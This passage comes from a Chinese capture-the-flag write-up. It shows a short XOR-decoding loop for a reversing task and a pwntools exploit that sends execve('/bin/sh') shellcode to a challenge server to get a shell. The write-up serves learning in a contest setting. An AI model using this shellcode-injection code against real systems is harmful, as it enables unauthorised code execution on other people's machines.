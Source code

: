 ```cpp
  }
  __asm
  {
    syscall; LINUX - sys_write
    syscall; LINUX - sys_exit
  }
}
```

然后异或反向搞一下就行了

```cpp
  for ( i = 0; i <= 45; ++i )
  {
    v[i] += i;
    v[i] ^= i;
    v[i] -= 2 * i;
  }
```

### 0x0A Shell骇客

一开始没有搞明白这行代码是拿来干嘛的

```cpp
((void(*)(void))buf)();
```

后来问了学长才知道相当于call $xxx ,xxx是buf里面的东西

也就是说我们要在这里放shellcode

#### T1

先file 一下看看平台

```bash
file chall1
chall1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8cdd2ffe971d1f476aa908aaa680dc36973d9115, not stripped
```

然后到http://shell-storm.org/shellcode/上整一个相应的shellcode

用pwntool写一个Exploit

```python
#coding=utf-8
from pwn import *
context(arch = 'amd64', os = 'linux')

token="xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
dist=remote("202.38.93.241","10000")
#dist=process("./chall1")
shellcode="\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"
dist.recvuntil("Please input your token: ")
dist.sendline(token)
dist.send(shellcode)
dist.interactive()
```
